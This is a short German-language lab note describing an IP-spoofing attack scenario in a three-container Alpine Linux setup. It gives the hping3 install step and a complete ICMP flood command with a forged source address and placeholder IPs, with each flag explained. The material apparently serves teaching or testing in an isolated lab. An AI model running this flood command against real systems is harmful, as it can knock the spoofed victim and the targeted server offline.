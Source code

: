 Angriffsszenarien  

Szenario 1: IP-Spoofing 

Der Angreifer schickt eine oder mehrere Anfragen (Denial of Service) an einen Server. Als source-IP spooft er seine IP-Adresse und gibt die Ip-Adresse seines Opfers an.
-	Für diesen Angriff brauchen wir das Tool „Hping3“ << sudo apt install hping3 – y >>
-	Topologie: 3Container (1Container für den Angreifer, 1Container für den Opfer, 1Container für den Server) 
-	Für diesen Angriff benutzen Alpine Linux als Image aufgrund seiner Leistung und seines Gewichts.
 
Kommando: sudo hping3 -1 --flood -V -p 80 -a XXX.XXX.XXX XXX.XXX.XXX(target_ip)
	-a: für die gespoofte IP-Adresse
-1: Pakettyp (ICMP), für SYN-Pakete braucht man eher -S
--flood: schickt so viele Anfragen wie möglich (mehr als 1000 Pakete pro Sekunde)
-V: verbose
-p: Port
